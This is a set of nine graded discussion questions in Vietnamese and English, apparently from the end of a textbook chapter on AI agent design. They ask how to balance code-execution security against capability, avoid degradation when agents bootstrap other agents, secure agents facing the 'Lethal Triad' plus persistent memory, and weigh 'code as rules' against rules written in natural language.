1. ★★ Code generation được xem là “meta-capability” (siêu năng lực) của một Agent. Tuy nhiên, việc thực thi code (code execution) lại tiềm ẩn nhiều security risks—code do Agent sinh ra có thể chứa vulnerabilities, rơi vào infinite loops, hoặc làm cạn kiệt system resources. Sandboxing có thể giảm thiểu một số rủi ro này, nhưng nó cũng giới hạn khả năng hoạt động của code, ví dụ như chặn quyền truy cập network hoặc file system. Làm thế nào để tìm được điểm cân bằng tối ưu giữa security và capability?
2. ★★★ Agent bootstrapping—mô hình Agent có khả năng tự tạo ra các Agent khác—mở ra tiềm năng cho sự “tự tái sản sinh trí tuệ” (self-reproduction of intelligence). Tuy nhiên, mỗi vòng lặp bootstrapping đều có thể phát sinh thêm các bias hoặc sai số mới. Liệu các lỗi này có bị tích lũy lũy tiến qua các thế hệ (generations) hay không? Làm thế nào để ngăn chặn hiện tượng degradation (suy giảm chất lượng) trong quá trình Agent bootstrapping?
3. ★★ Khi một code-generation Agent xử lý log parsing, nó có thể tự động thích ứng với sự thay đổi định dạng (format evolution). Nhưng nếu sự thay đổi format đó thực chất là một bug thay vì một sửa đổi có chủ đích, thì tính thích ứng của Agent lại vô tình che giấu vấn đề. Agent cần làm thế nào để phân biệt giữa “một thay đổi cần adapt” và “một anomaly (dị thường) cần phải report”?
4. ★★ Chương này liên tục sử dụng cơ chế proposer-reviewer trong các tác vụ tạo PPT, video editing và log visualization. Nếu aesthetic preferences (gu thẩm mỹ) của Reviewer khác biệt so với target user—chẳng hạn, Reviewer đánh giá information density (mật độ thông tin) ở mức hợp lý nhưng người dùng lại thấy quá dày đặc—thì feedback loop có thể hội tụ về sai local optimum (cực trị địa phương). Làm thế nào để tích hợp user-preference feedback vào bên trong Reviewer loop?
5. ★★ Chương này trình bày nhiều phương thức để một Coding Agent đúc kết kinh nghiệm thu được từ quá trình execution và debugging ngược trở lại codebase—viết các knowledge-base files, cập nhật architecture documentation, duy trì project instruction files, và encode các operational sequences thành code. Nếu lượng kinh nghiệm này tiếp tục được chắt lọc thành các rules trong system prompt, tập rule set sẽ phình to liên tục theo thời gian. Làm thế nào để thực hiện “garbage collection” trên các accumulated rules này nhằm nhận diện và loại bỏ các entry dư thừa hoặc lỗi thời? Tại sao một lần sửa đổi code thành công đơn lẻ vẫn chưa được coi là continuous evolution theo định nghĩa ở Chương 9?
6. ★ “Những team cởi mở với remote work thường cũng sẽ dễ dàng thích ứng với AI Agents.” Đội ngũ hoặc tổ chức của bạn hiện đã đạt mức độ “AI-ready” đến đâu xét trên khía cạnh knowledge documentation? Đâu là rào cản lớn nhất?
7. ★★★ Simon Willison từng đưa ra khái niệm “Lethal Triad” (Bộ ba nguy hiểm) đối với Agent—bao gồm: quyền truy cập private data, phơi nhiễm trước untrusted content, và khả năng external communication. Chương này bổ sung thêm một yếu tố thứ tư: persistent memory. Bạn sẽ thiết kế security strategy như thế nào cho một production environment bắt buộc phải xử lý đồng thời cả bốn yếu tố trên?
8. ★★ Artifact pattern cho phép một Agent sinh ra SQL hoặc frontend code để database và browser trực tiếp execute, loại bỏ yêu cầu LLM phải xử lý khối lượng data khổng lồ. Ưu điểm và nhược điểm của sự phân công lao động này—“Agent sinh code, system thực thi code”—so với pattern truyền thống (Agent trực tiếp trả lời) là gì? Ngoài ra, generated SQL có thể thực hiện các destructive operations, và generated HTML có thể chứa vulnerabilities. Làm thế nào để đảm bảo tính an toàn tuyệt đối (system security) của hệ thống?
9. ★★ Việc encode các business rules thành các logic checks bên trong tools đối chiếu với các authoritative database records, đồng thời sử dụng parameter design để định hướng model kiểm tra các policy conditions trước khi thực hiện call, về bản chất là sử dụng code structure để ràng buộc hành vi của Agent. Những ưu điểm và hạn chế của pattern “code as rules” này so với việc diễn đạt rules bằng natural language là gì?
